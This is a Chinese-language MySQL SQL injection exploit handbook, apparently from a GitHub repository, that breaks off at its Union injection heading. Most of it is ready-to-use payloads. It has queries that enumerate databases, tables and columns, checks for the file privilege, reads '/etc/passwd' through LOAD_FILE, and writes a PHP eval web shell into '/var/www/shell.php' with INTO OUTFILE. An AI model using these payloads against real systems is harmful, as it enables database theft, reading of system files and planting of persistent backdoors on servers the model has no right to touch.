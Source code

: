 # EXP手册-SQL injection(MySQL) 

php:  
## SQL语句基础知识
### 0x01查询语句
#### 1.查询数据库名
```
SELECT database();    
SELECT schema_name FROM information_schema.schemata;   
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)    
``` 
#### 2.查询表名
```
SELECT table_name FROM information_schema.tables WHERE  table_schema=database()； 
```  
#### 3.查询列名   
tablename为表名
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename'   
```    
### 0x02文件读写
前置条件：file权限
#### 1.查询权限
username为用户名
```
SELECT file_priv FROM mysql.user WHERE user = 'username';//需要root权限    
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';     
```
#### 2.读文件   
```
SELECT LOAD_FILE('/etc/passwd');
```
- LOAD_FILE()函数操作文件的当前目录是@@datadir 
- MySQL用户必须拥有对此文件读取的权限
- 文件大小必须小于 max_allowed_packet。
- @@max_allowed_packet的默认大小是1047552 字节


#### 3.写文件
INTO OUTFILE/DUMPFILE
```
SELECT '<? @eval($_POST[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
```
### 0x03常用常量和函数
@@global.secure_file_priv
查询版本
VERSION()
@@VERSION
@@GLOBAL.VERSION 服务器主机名：
@@HOSTNAME
## SQL注入漏洞利用
SQL注入利用类型主要分类：
- Union型注入
- 报错型注入
- Bool型盲注
- 时间型盲注
### 0x04 Union注入